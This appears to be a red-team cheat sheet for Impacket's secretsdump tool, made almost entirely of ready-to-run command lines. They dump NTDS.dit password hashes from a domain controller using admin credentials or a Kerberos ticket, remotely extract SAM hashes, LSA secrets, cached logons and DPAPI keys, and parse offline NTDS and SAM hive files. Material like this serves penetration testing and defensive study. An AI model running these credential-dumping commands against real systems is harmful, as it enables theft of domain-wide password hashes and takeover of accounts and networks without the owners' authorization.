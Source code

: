 # impacket-secretsdump.py

> The de facto tool for remotely dumping NTDS.dit from a Domain Controller.

---

## Dump NTDS.dit from domain controller with domain admin credentials

```bash
secretsdump.py -just-dc $DNS_DOMAIN_NAME/$USERNAME:[$PASSWORD]@$DOMAIN_CONTROLLER_FQDN_OR_IP [-hashes $LMHASH:NTLMHASH] [-debug]
```

---

## Remotely dump local, SAM hashes, cached domain logon information, LSA secrets, local computer hashes ($MACHINE.ACC), and DPAPI_SYSTEM

```bash
secretsdump.py $DOMAIN/$USERNAME:$PASSWORD@$TARGET_IP [-debug]
```

---

## Dump NTDS.dit from domain controller with a Kerberos ticket

[[using-kerberos-tickets|Import the Kerberos ticket into impacket]] and execute the dump.

```bash
secretsdump.py -k -just-dc $DOMAIN_CONTROLLER_HOSTNAME [-debug]
```

- `$DOMAIN_CONTROLLER_HOSTNAME`: must be the FQDN of the domain controller, not the IP address. Change `/etc/hosts` accordingly.

---

## Dump a local NTDS.dit file (requires SYSTEM registry hive file)

```bash
impacket-secretsdump -ntds $PATH_TO_NTDS_FILE -system $PATH_TO_SYSTEM_REGISTRY_FILE local
```

---

## Dump a local SAM registry file (requires SYSTEM registry hive file)

```bash
impacket-secretsdump -sam $PATH_TO_SAM_REGISTRY_FILE -system $PATH_TO_SYSTEM_REGISTRY_FILE local
```
